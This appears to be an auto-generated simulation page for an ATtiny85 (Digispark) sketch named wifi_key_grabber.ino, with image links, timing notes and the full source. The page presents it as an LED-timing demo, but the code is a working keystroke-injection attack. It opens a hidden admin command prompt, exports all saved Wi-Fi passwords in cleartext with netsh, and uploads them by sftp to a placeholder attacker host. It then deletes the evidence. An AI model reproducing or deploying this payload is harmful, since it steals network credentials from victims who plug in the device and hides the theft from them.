
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 120.4 s:

Timing chart, 0 to 121.9 s (numbered marks = the images above):


The sketch:

wifi_key_grabber.ino
```cpp
// Author : thehwiteh4t //
#include "DigiKeyboard.h"
void setup() {
  pinMode(1, OUTPUT);
  #define KEY_ARROW_DOWN 0x51
}
void loop() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.print("cmd");
  DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT + MOD_SHIFT_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(KEY_SPACE, MOD_ALT_LEFT);
  DigiKeyboard.sendKeyStroke(KEY_M);
  int i;
  for(i=1;i<100;i++) {
    DigiKeyboard.sendKeyStroke(KEY_ARROW_DOWN);
  }
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("cd %temp%");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("@netsh wlan export profile key=clear >nul");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("sftp USERNAME@IPADDR");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("yes");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(5000);
  DigiKeyboard.print("PASSWORD");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("mput *.xml");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
  DigiKeyboard.print("bye");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(200);
  DigiKeyboard.print("del /f /q /s *.xml >nul");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.print("exit");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  digitalWrite(1, HIGH);
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);
}
```

Measured:
- by itself, PB1: LOW → HIGH at 12.7 s, → LOW 90.0 s later, → HIGH 17.7 s later
